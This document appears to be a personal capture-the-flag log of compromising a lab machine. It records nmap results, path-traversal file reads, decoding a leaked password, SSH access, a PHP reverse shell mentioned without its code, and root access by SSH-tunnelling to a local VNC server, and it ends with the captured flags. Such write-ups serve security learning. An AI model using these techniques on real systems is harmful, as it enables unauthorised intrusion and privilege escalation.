PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
5802/tcp open  http    Bacula http config
5902/tcp open  vnc     VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|     VNC Authentication (2)
|     Tight (16)
|   Tight auth subtypes: 
|_    STDV VNCAUTH_ (2)
5903/tcp open  vnc     VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|     VNC Authentication (2)
|     Tight (16)
|   Tight auth subtypes: 
|_    STDV VNCAUTH_ (2)
5904/tcp open  vnc     VNC (protocol 3.8)
| vnc-info:
|   Protocol version: 3.8
|   Security types:
|     VNC Authentication (2)
|     Tight (16)
|   Tight auth subtypes:
|_    STDV VNCAUTH_ (2)

6002/tcp open  X11:2?
6003/tcp open  X11     (access denied)
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 200.77 seconds
    #+end_example

** web server enumeration
   [2018-05-05 sab 10:08] 
   
   Apparently you can execute various php scripts on the server by
   typing their name.

   Typing ~listfiles.php~ you get a list of other files. Among these
   there are two that are not listed in the initial page. These are
   ~browse.php~ and ~pwdbackup.txt~.

   Opening ~pwdbackup.txt~ you find some password that has been encoded,
   probably in base64, a couple or more times (it explicitly says in
   the file that the password has been encoded like 13 times or so).

   Should probably write a bash script that keeps decoding it until i
   find something that is not base64.
** decoding pwdbackup.txt
   [2018-05-05 sab 14:00]

   After some time i've managed to write a simple sh script that would
   keep decoding the passwd untill something came out. Something did
   come out, on the 13-th iteration, and that something is

   ~Charix!2#4%6&8(0~

   So this must be a password for something. Maybe ssh?
** is the password correct?
   [2018-05-05 sab 17:07]

   Maybe the password ~Charix!2#4%6&8(0~ is not fully decoded.
   
   #+begin_example
Charix!2#4%6&8(0
1234567890
   #+end_example
   
   Maybe the first portion is the username and the remaining portion
   is the actual password.
** found vnc ports
   [2018-05-05 sab 19:25]

   No idea how to proceed from here.

   I actually did another scan with nmap and found other ports
   open. Specifically two of them (~5902~ and ~5903~) use a protocol
   called ~VNC~ (Virtual Network Computing). I downloaded a client for
   connecting to a server with this port open but I still need a
   password, and the password I've found doesn't seem to work.

   Also another web server is up on port ~5802~. It says ~Bacula http
   config~, but no idea what that means.

   Finally, ports ~6002~ and ~6003~ are also open with ~X11~. Which, once
   again, got no idea what it means.
** found LFI
   [2018-05-05 sab 23:06]
   
   Apparently we can use the search to open files in the file
   system. For example ~../../../etc/php.ini~ Will open the file
   situated in ~/usr/local/etc/php.ini~

   When i try to open ~../../../../../home/charix~ it says Permission
   denied.
** got in with ssh
   [2018-05-05 sab 23:34]

   Ok i got in. The username was actually ~charix~, and not Charix. The
   password was the one found in the pwdbackup.txt, that is,
   ~Charix!2#4%6&8(0~.

   Found the user flag, now will try to go into privilege escalation.
** no clue on priv esc
   [2018-05-06 dom 00:39]

   Still got no clue on priv. esc. Maybe it has something to do with
   the ~secret.zip~ file. Dunno how to use it though.
     
   Also maybe it has something to do with vnc.
** maybe vnc?
   [2018-05-06 dom 20:13]

   I think the way to get root privilege is to log in with a vnc
   client to a particular port opened by the server.

   This reasoning comes from the fact that i found the following
   process by doing ps aux:

   #+begin_example
 root  529  0.0  0.9  23620  8964  v0-  I  19:41  0:00.06  Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc    
   #+end_example

   Now, the problem is: which port is this listening on? And, even if
   I find the port, whats the password? Maybe the one contained in the
   secret.zip file?

   Running ~sockstat~ we get, among other things

   #+begin_example
root     sshd       620   4  tcp4   *:22                  *:*
root     twm        541   3  stream -> /tmp/.X11-unix/X1
root     xterm      540   3  stream -> /tmp/.X11-unix/X1
root     Xvnc       529   0  stream /tmp/.X11-unix/X1
root     Xvnc       529   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       529   3  tcp4   127.0.0.1:5801        *:*
root     Xvnc       529   4  stream /tmp/.X11-unix/X1
root     Xvnc       529   5  stream /tmp/.X11-unix/X1   
   #+end_example

   Thus we can see that root has opened ports ~5901~ and ~5801~ or
   something for ~Xvnc~. The problem is, I think, that the ports are
   only accepting local connections or something.
** still no clue
   [2018-05-06 dom 21:03]

   Still no idea. However, by putting a php script in the ~./tmp folder~
   and executing it from the brower, I managed to open a reverse shell
   and get inside the machine as the user ~www~. Still, this doesn't
   really help much.
** stuck
   [2018-05-06 dom 22:32]

   Stuck. No idea how to use the ~secret.zip~ file.

   This comment on the forum says that the unzipped file is needed to
   do something. However i still have no idea on what this something
   is.

   How can we use a file that we cannot read? HMMMM, i think that the
   secret files contains the password needed to access the vnc port
   that was opened by root (mentioned before). However to do this i
   need a program called ~vncviewer~.
** ssh tunneling
   [2018-05-07 lun 18:37]

   Man, I don't know what's up today but the machine keeps going down
   every 2-3 min. Like, fuck, can't do shit.

   Anyways, I think I know what I'm supposed to do. That is, I'm
   supposed to use the fact that root has opened a vnc port. However,
   i have no idea on how to do that.
     
   HMMMMMMMMMMMMM, I've been reading
   https://www.cl.cam.ac.uk/research/dtg/attarchive/vnc/sshvnc.html
   and here it says:
   
   #+begin_quote
   [...] However, SSH has some nice extra tricks up its sleeve.  You
   can also request that it listens on a particular port on your local
   machine, and forwards that down the secure connection to a port on
   a machine at the other end.  For example,

   ssh -L x:localhost:y snoopy

   means "Start an SSH connection to snoopy, and also listen on port x
   on my machine, and forward any connections there to port y on
   snoopy." [...]
   #+end_quote

   Does this mean that we can access the machine locally with ssh and
   the charix user account. Once we have a shell there, we can
   re-direct the traffic going from port 5901 (which i think is the
   port where root has opened a vncserver), to some port y on our own
   machine.

   Reading againt from the link:

   #+begin_quote
   [...] imagine you had a VNC server running as display :1 on machine
   snoopy, and you wanted a secure connection to it from your local
   machine.  You could start the ssh session using:

   ssh -L 5902:localhost:5901 snoopy   
   #+end_quote
** got root!
   [2018-05-07 lun 18:57]

   Ok somehow the previous idea worked and managed to get root
   flag. However, i still have no idea how it all worked. What i did
   was the following:
   
   #+begin_src sh
ssh -L 5902:localhost:5901 charix@10.10.10.84
vncviewer -passwd secret localhost:5902
   #+end_src
     
   Now, i wonder, was the first ssh login necessary? I think it was
   because root started the vnc display listening locally, with IP
   ~127.0.0.1~. Therefore, if I simply did
   
   #+begin_src sh
vncviewer -passwd secret 10.10.10.84:5902   
   #+end_src
     
   It would not have sent the login request to the same socket, since
   the socket socket i wanted had local address ~127.0.0.1~, and not
   ~10.10.10.84~. By re-directing the traffic from my ~5902~ localhost
   port through charix's ~5901~ port i was able to connect to the local
   address ~127.0.0.1~ on the remote machine.
     
   If this machine did not go down every 3 min I would've tried this.
     
   @@html: <hr style="border: 1px solid #A1283B;" />@@

* Flags                                                            :noexport:
  - *user*: eaacdfb2d141b72a589233063604209c
  - *root*: 716d04b188419cf2bb99d891272361f5
